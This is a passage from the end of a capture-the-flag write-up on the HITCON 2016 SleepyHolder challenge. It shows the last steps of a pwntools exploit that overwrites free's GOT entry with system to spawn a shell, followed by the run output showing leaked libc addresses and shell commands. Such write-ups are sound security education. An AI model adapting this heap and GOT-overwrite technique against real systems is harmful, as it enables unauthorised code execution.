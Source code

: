 ```
# Now that we know where system is, we can write over the got address of free with the got address of system
RenewSecret(1, p64(system))

# Prepare a char pointer to 'sh' by creating a new big secret with the string 'sh'
KeepSecret(2, 'sh')

# Execute the shell
WipeSecret(2)

target.interactive()

# This exploit is based off of: https://www.lazenca.net/pages/viewpage.action?pageId=7536654
```

When we run it:
```
$	python exploit.py 
[+] Starting local process './SleepyHolder': pid 14832
[*] '/Hackery/Hitcon16/sleepy_holder/SleepyHolder'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Address of puts:      0x7fb2eae3a920
[*] Address of system:    0x7fb2eae0f6a0
[*] Address of libc base: 0x7fb2eadca000
[*] Switching to interactive mode

1. Small secret
2. Big secret
$ ls
core
exploit.py
libc.so.6
libc.so.6_375198810bb39e6593a968fcbcf6556789026743
notes
peda-session-dash.txt
peda-session-SleepyHolder_3d90c33bdbf3e5189febfa15b09ca5ee61b94015.txt
peda-session-SleepyHolder.txt
peda-session-sl.txt
peda-session-w.procps.txt
readme.md
sl
SleepyHolder
solved.py
$ w
 15:25:52 up  2:41,  1 user,  load average: 2.72, 1.88, 1.60
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu tty7     :0               13:05    2:20m  6:14   0.05s /bin/sh /usr/lib/gnome-session/run-systemd-session ubuntu-session.target
```

Just like that, we popped a shell!

Once again, this writeup is based off of this really great writeup: https://www.lazenca.net/pages/viewpage.action?pageId=7536654

